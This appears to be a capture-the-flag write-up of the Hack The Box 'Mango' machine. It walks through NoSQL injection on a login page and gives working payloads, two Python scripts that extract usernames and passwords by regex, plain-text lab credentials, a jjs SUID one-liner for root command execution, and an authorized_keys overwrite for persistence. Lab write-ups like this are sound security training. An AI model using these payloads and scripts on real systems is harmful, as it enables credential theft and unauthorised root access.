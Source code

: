 ```yaml
---
layout: single
title:  "HTB Writeup - Mango"
excerpt: "Mango is rated as a medium difficulty linux machine. This machine is hosting a webserver vulnerable to NoSQL injection, allowing attackers to leak credentials that can be used to successfully login via SSH. For privilege escalation, a scripting tool with SUID enabled can be used by attackers to execute shell commands as root."
header:
  teaser: "/assets/images/htb/mango/logo.png"
date: "2020-04-19"
classes: wide
categories:
- hackthebox 
- machines
tags:
- nosql 
- injection
- jjs 
- gtfobins
---
```


![](/assets/images/htb/mango/logo.png)  

Mango is rated as a medium difficulty linux machine. This machine is hosting a webserver vulnerable to NoSQL injection, allowing attackers to leak credentials that can be used to successfully login via SSH. For privilege escalation, a scripting tool with SUID enabled can be used by attackers to execute shell commands as root.

## Recon

A quick masscan + nmap scan gives us the following info:  

![](/assets/images/htb/mango/scan.png)  

There are 3 open ports, ```22, 80 and 443```. Credentials are needed for SSH access so let's proceed checking up ```port 80``` and ```port 443```.

## Webserver

Hitting up port 80 gives us a ```403 Forbidden``` response.

![](/assets/images/htb/mango/port_80.png)  

Adding ```mango.htb``` to ```/etc/hosts``` gives us the same response.

![](/assets/images/htb/mango/port_80_etchosts.png)  

Enumerating ```port 80```'s directories also gave nothing.

Skipping to ```port 443```, accessing the port leads us to this webpage.  

![](/assets/images/htb/mango/port_443.png)  

Enumerating ```port 443```'s directories and pages only led to this page.

![](/assets/images/htb/mango/port_443_analytics.png)  

It seems that ```https://mango.htb``` or ```https://10.10.10.162``` leads to nothing.

Going back to our nmap scan gives us a subdomain worth investigating.

```
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```

Adding ```staging-order.mango.htb``` to ```/etc/hosts``` gives us a new webpage.

![](/assets/images/htb/mango/port_443_staging.png)  

It leads us to ```Sweet & Juicy Mango``` login page.

## NoSQL injection

After manually testing a lot of SQLi payloads, it seems that the login page is not vulnerable to SQLi. After wasting a lot of time in the rabbit hole, I realized that there might be a reason why this machine is named ```Mango```.  

```Mango``` -> ```Mongo``` -> ```MongoDB``` -> ```NoSQL injection```  

After trying different NoSQL payloads from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection), I got an ```HTTP/1.1 302 Found``` response with this payload.

```
username[$ne]=admin&password[$ne]=admin&login=login
```

![](/assets/images/htb/mango/burp_injection.png)  

We can extract information using this payload template:  

```
username[$regex]=^(insert character guess here)&password[$ne]=test&login=login
```

The payload means that the server will return a ```302 response``` if the user value starts with the right character/s.

Automating this attack with a script makes it easier to leak the information we need.

```
import requests
import string

url = 'http://staging-order.mango.htb/'

user = ''

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|']:
      data = {'username[$regex]': '^{}'.format(user + c),
        'password[$ne]': 'abc',
        'login': 'login'
        }

      print('Trying: {}'.format(user + c))
      print('Current user: {}'.format(user))

      r = requests.post(url, data=data, allow_redirects=False)
      if r.status_code == 302:
          # additional check to break the script
          if c == '$':
              print('Leaked user: {}'.format(user))
              exit()
          user += c
          print(user)
```

Running this script gives us two users, ```admin``` and ```mango```.   

![](/assets/images/htb/mango/leak_admin.png)  

Note: **Edited the script to skip admin user**

![](/assets/images/htb/mango/leak_mango.png)  

After extracting the users, we need to edit the payload to extract passwords.

This will be the new payload template for password extraction.

```
username=admin&password[$regex]=^(insert password guess here)&login=login
```

This script can be used to extract the password for each user:

```
import requests
import string

url = 'http://staging-order.mango.htb/'

password = ''

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|']:
      data = {'username[$eq]': 'mango',
        'password[$regex]': '^{}'.format(password+c),
        'login': 'login'
        }

      print('Trying: {}'.format(password + c))
      print('Current pw: {}'.format(password))

      r = requests.post(url, data=data, allow_redirects=False)
      if r.status_code == 302:
          if c == '$':
              print('Leaked password: {}'.format(password))
              exit()
          password += c
          print(password)
```

User ```admin``` password leak:

![](/assets/images/htb/mango/admin_pw.png)  

User ```mango``` password leak:

![](/assets/images/htb/mango/mango_pw.png)  

Leaked credentials:  

```
admin : t9KcS3>!0B#2
mango : h3mXK8RhU~f{]f5H
```

The credentials for mango user worked on SSH login.

![](/assets/images/htb/mango/mango_user.png)  

After checking the files of ```mango```, the file ```user.txt``` does not exist in the home directory. It seems that we still need to check for another user.

## PrivEsc to Admin 

Upon checking the list of users on ```/etc/passwd```, we can see that there is another user named ```admin```.

![](/assets/images/htb/mango/users.png)  

We can try to use the leaked credentials (```admin : t9KcS3>!0B#2```) for this user.

![](/assets/images/htb/mango/su_admin.png)  

Successfully pivoted to ```admin``` user.

## PrivEsc to Root

Executing [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) shows us that there is an SUID binary that can be exploited.  

![](/assets/images/htb/mango/suid.png)  

A quick google search about exploiting ```jjs``` leads us to another [GTFObins](https://gtfobins.github.io/gtfobins/jjs/) page.

![](/assets/images/htb/mango/gtfo_suid.png)  

According to GTFObins, we can execute system commands inside ```jjs``` with a one-liner command:

```
Java.type('java.lang.Runtime').getRuntime().exec('<insert commands here>').waitFor()
```  

Since ```jjs``` is SUID enabled, we can execute commands as ```root```. We can try to write an ```SSH public key``` to ```/root/.ssh/authorized_keys``` and login via SSH using our private key.

Overwriting ```/root/.ssh/authorized_keys``` by downloading our public key using ```wget```.

![](/assets/images/htb/mango/rooted.png)  

Successfully logged in as ```root``` using our private key.

-- 

![ar33zy](https://www.hackthebox.eu/badge/image/26849)


